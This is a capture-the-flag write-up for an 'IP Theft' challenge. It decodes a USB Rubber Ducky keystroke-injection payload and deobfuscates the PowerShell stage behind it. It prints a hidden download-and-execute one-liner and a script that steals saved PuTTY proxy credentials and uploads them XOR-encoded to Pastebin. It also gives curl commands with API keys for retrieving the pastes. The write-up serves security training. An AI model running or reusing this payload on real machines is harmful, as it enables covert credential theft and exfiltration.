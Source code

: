 # IP Theft

## Write-up

For the `IP Theft` challenge I think the description made it clear that the attack we're talking about is keystroke injection attack using usb rubber ducky but if the description wasn't enough I attached a picture with usb and rubber ducky logo.

After googling how to decode rubber ducky binaries i think there's several [scripts](https://github.com/JPaulMora/Duck-Decoder) that can do that.

The decoded bin shows the following:

```
DELAY 2008

STRING Dpowershell -w h -NoP -NonI -Ep unrestricted "iex((iwr -UseBasicParsing https://www.klgrth.io/paste/3qsz5/raw).content)"
ENTER
```

We can notice the decoding is not accurate but it's enough to understande the what's going on.(You can find the original payload and other files that helped creating this challenge in this repo)

We can see the payload is running powershell script from [Specter](https://www.klgrth.io/)(Ghostbin).

the script is obviously obfuscated, so after many layers of obfuscation (I am sorry I used off the shelf obfuscators that had a frustrating amount of layers), we get to the following code:

```powershell
try{
    $content = (Get-ItemProperty -Path "HKCU:\Software\SimonTatham\PuTTY\Sessions\*" -ErrorAction Stop |select Proxyhost, ProxyUsername, ProxyPassword | out-string)
    Add-Type -AssemblyName System.Drawing
    $bmp = new-object System.Drawing.Bitmap 1920,1080
    $font = new-object System.Drawing.Font Consolas,18
    $brushBg = [System.Drawing.Brushes]::White
    $brushFg = [System.Drawing.Brushes]::Black
    $graphics = [System.Drawing.Graphics]::FromImage($bmp)
    $graphics.FillRectangle($brushBg,0,0,$bmp.Width,$bmp.Height)
    $graphics.DrawString($content,$font,$brushFg,500,100)
    $graphics.Dispose()
    $bmp.Save("./img.jpg")
    $content = [convert]::ToBase64String((gc "./img.jpg" -Encoding byte))
    $key = "SUPERSECRETKEY"
    Add-Type -AssemblyName System.Web
    $b64ed = [System.Web.HTTPUtility]::UrlEncode($($j=0;[convert]::ToBase64String($(for($i = 0;$i -lt $content.length;$i ++){[System.Text.Encoding]::UTF8.getBytes($content)[$i] -bxor [System.Text.Encoding]::UTF8.getBytes($key)[$j%$key.length]; $j++}))))
    $body = "api_dev_key=mQiMplTjO4G5AqJpFLXuXhQpkryZugnJ&api_paste_code="+$b64ed+"&api_option=paste&api_paste_private=1&api_user_key=452b99a2b4cc6bb03cd06e02ac93be56".replace("`n","").replace("`r","")
    #UPLOAD#
    Invoke-RestMethod -Uri "https://pastebin.com/api/api_post.php" -Method Post -Body $body
    del "./img.jpg"
}catch [System.Management.Automation.ItemNotFoundException] {
    echo "NOT FOUND"
 }
```

All the script is trying to do is steal some saved parameters of PuTTY Sessions and print that into an image Base64 it XOR it with the Key=SUPERSECRETKEY Then Base64 it again, and upload it to pastebin as an unlisted paste using api key and user key, and by reading the pastebin api it's relatively easy to list available pastes and then reversing the operations again.

To List Pastes

```bash
curl -XPOST https://pastebin.com/api/api_post.php -d 'api_user_key=452b99a2b4cc6bb03cd06e02ac93be56' -d "api_option=list" -d "api_dev_key=mQiMplTjO4G5AqJpFLXuXhQpkryZugnJ"
```

To Show the oldest paste (Use the oldest paste because many players just executed the script and it uploaded random picture to the account):

```bash
curl -XPOST https://pastebin.com/api/api_post.php -d 'api_user_key=452b99a2b4cc6bb03cd06e02ac93be56' -d "api_option=show_paste" -d "api_dev_key=mQiMplTjO4G5AqJpFLXuXhQpkryZugnJ" -d "api_paste_key=8JucNsc5"
```

By using a simple recipe at cyberchef we can get a picture with the flag:`IngeHack{1ts_ju5t_Inv0luntary_b3ckups_n0th1ng_m0r3}`

![Flag](flag.png "Flag")
